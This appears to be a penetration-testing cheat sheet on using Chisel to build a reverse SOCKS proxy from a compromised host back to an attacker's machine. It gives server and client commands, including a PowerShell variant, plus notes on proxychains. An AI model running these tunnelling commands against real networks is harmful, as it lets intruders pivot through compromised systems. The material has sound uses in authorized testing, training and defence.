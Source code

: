 ## What is Chisel?
- Chisel is a great tool which can be used to quickly and easily setup a tunneled proxy or remote port forward through a compromised system, `regardless of if you have SSH access or not`
- We must have an appropriate copy of a chisel binary on both `attacking and compromised machine as well.`
- Copy the file to your target with your preferred file transfer method.

The chisel binary has two modes: 
1. client  
2. server


### Reverse SOCKS proxy
- We'll now use chisel and set up a reverse SOCKS proxy 
- This connects back from a compromised server to a listener waiting on our attacker machine.


## Step 1
On our own attack box, we use a command like this to setup a listener:-
```
chisel server -p <listen_port> --reverse & 
```


## Step 2
On compromised host, we use a command which connects back to the listener on our attacking box, completing the proxy.
```
./chisel client <ip of attack box>:<listen port> R:socks &
```

OR 

```powershell
Start-Job {C:\Users\chisel.exe client ip:port R:socks}
```
- Notice that, despite connecting back to out listener port, the actual proxy has been opened on port 1080.
- As such, we will be using port 1080 when sending data through the proxy 

The use of `R:socks` in command 
- `R` is prefixed to remotes (argument that determines what is forwarded or proxied -- in this case we setup a proxy) when connecting to a chisel server that has been started in reverse mode.
	- It essentially tells the chisel client that server anticipates the proxy or port forward to be made at the client side 


Proxychains setup
- When sending data through these proxies, we need to setup our proxychains configuration.
- A Chisel uses a SOCKS5 proxy, we will need to change line from socks4 to socks5 proxy.

## Note
- `The above config is for a reverse SOCKS proxy - as mentioned previously, proxy opens on port 1080 rather than specificed listening port.`
- `If you use proxychains with a forward proxy then port should be set to whichever port you opened (port 1337)`


